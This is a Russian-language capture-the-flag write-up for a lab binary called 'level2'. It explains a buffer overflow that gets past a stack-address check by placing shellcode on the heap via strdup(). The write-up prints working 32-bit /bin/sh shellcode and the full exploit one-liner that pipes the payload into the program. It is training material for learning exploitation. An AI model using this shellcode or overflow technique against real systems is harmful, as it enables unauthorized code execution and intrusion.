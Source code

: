 ## level2
На схеме мы видим, что в функции `main` совершается единственное действие — вызов функции `p()`

![](../../docs/img/level2_1.png)

Рассмотрим эту функцию.

![](../../docs/img/level2_2.png)

Сразу в глаза бросается отсутствие вызова `/bin/sh`, а, значит, необходимо внедрить shellcode. Сравнение `if ((__return_addr & 0xb0000000) != 0xb0000000)` защищает от записи адреса содержащегося в стеке, следовательно, в стек мы не можем записать shellcode, зато мы можем записать его в кучу. Это нам позволит сделать `strdup()`. C помощью [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) находим оффсет регистра `eip - 80`. Используя команду `arch` видим, что у нас 32-битная виртуальная машина. Находим соответствующий `shellcode`, который занимает 52 байта:

```py
\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68
```

Добиваем остаток оффсета любыми символами (например, `a`), дописываем адрес возврата `strdup()` — `0x0804a008`, записанный в обратном порядке. В итоге получаем:

```sh
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*28 + "\x08\xa0\x04\x08"') | ./level2
```

Вход в оболочку происходит, но после этого нас сразу выкидывает. Допишем команду `cat`, ожидающую ввода, чтобы получить желаемый результат:

```sh
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*28 + "\x08\xa0\x04\x08"'; cat) | ./level2
```